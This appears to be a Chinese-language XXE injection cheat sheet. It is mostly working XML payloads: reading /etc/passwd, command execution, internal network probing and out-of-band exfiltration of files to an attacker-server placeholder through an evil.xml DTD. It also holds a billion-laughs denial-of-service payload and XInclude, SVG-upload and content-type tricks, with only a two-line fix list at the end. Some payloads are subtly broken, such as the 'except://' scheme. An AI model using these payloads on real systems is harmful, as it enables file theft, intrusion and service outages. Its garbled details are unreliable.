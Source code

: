# XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。(看到这里肯定有人要说：你这不是在废话)，固然，其实我这里废话只是想强调我们的利用点是 外部实体 ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(盯好外部实体就行了)，如果能注入 外部实体并且成功解析的话，这就会大大拓宽我们 XML 注入的攻击面

## payload

### 有回显

读取任意文件

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "file:///etc/passwd">]>
    <root>&name;</root>
    
命令执行

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "except://ls">]>
    <root>&name;</root>

内网探测

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "http://192.168.1.1">]>
    <root>&name;</root>    
    
### 无回显

HTTP外带

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % remote SYSTEM "http://攻击者服务器IP:8888/evil.xml">
    %remote;
    %all;
    %send;
    ]>
    <root>&name;</root>

evil.xml

    <!ENTITY % all "<!ENTITY % send SYSTEM 'http://攻击者服务器IP:8888/1.php?file=%file;'>">

拒绝服务攻击

    <?xml version="1.0"?>
    <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
 
 ## 场景
 
 ### 用户输入嵌入到服务端解析的XML文档
 
 比如：检查库存功能
 
 因为无法控制整个XML文档，所以无法定义DTD来发起经典的XXE攻击。但改用XInclude，XInclude是XML规范的一部分，它允许从子文档构建XML文档
 
 payload
 
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    
将payload替换库存的id

### 基于XML格式的文件，比如DOCX文档、SVG图像等

比如：头像上传处

svg文件payload

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls" width="200" height="200"></image>
    </svg>
    
然后头像就可能显示出数据

### 修改请求包内容类型

大多数POST请求使用由HTML表单生成的默认内容类型，例如application/x-www-form-urlencoded。

将

    POST /action HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7
     
    foo=bar
    
修改为

    POST /action HTTP/1.0
    Content-Type: text/xml
    Content-Length: 52
     
    <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>    
    
如果应用程序接受消息正文中包含XML请求，并将正文内容解析为XML，那么我们只需将请求重新修改XML格式，就可以达到隐藏的XXE攻击面。
    
## 漏洞修复

* 禁用外部实体
* 过滤关键字，如<!DOCTYPE 、<!ENTITY、SYSTEM和PUBLIC等